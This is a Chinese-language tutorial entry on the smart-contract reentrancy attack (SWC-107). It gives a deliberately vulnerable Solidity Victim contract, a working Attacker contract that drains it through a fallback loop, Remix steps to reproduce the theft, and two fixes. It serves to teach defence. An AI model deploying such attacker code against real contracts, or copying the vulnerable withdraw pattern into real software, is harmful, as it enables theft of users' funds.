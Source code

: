 # 攻击名称
可重入攻击(SW107-Reentrancy)
# 攻击分类[CWE-841](https://swcregistry.io/docs/SWC-107)
代码实现与预期行为不一致
# 攻击描述
主要的风险就是调用外部合约会接管合约的控制流。在可重入攻击中，恶意合约在被攻击合约的第一个函数执行完成前在再次调用合约，这可能导致函数调用与预期行为不一致。核心流程与原理如下:
![](/entries/SW107-Reentrancy/concept.png)
# 合约案例
[完整代码和文档](https://github.com/dajuguan/SmartContractSecurity/tree/main/entries/SW107-Reentrancy).
## 被攻击合约
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.6.10;
contract Victim {
    mapping(address=> uint256) public balances;
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!");

        balances[msg.sender] -= amount;
    }

    function getBalance() public view returns(uint){
        return address(this).balance;
    }
}
```

## 攻击合约
```
contract Attacker{
    Victim public victim;
    constructor(address _victimAddr) public {
        victim = Victim(_victimAddr);
    }

    function beginAttack() external payable{
        require(msg.value >= 1 ether);
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    }

    fallback() external payable{
        //死循环的话一毛也取不到
        if (address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
        }
    }

    function getBalance() public view returns(uint){
        return address(this).balance;
    }
}
```

## 操作示例
1. 采用Remix账户1部署Victim合约，然后调用deposit存入4个ETH
2. 采用Remix账户1部署Attacker合约，然后调用beginAttack并传入1个ETH
3. Victim合约GetBalance: 0, Attacker合约GetBalance 5

# 防止策略
1. 切换存储更新和外部调用的顺序，防止启用攻击的重新进入条件。遵循“检查-效果-相互作用”设计模式。

```
contract Victim{
    ...
    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        balances[msg.sender] -= amount;
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!"); 
    }
```

2.加锁。

```

    bool internal locked;
    modifier noReentrant(){
        require(!locked, "No re-entrancy!");
        locked = true;
        _;
        locked = false;
    }

    function withdraw(uint256 amount) public noReentrant{
        require(balances[msg.sender] >= amount);
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!");

        balances[msg.sender] -= amount;
    }
```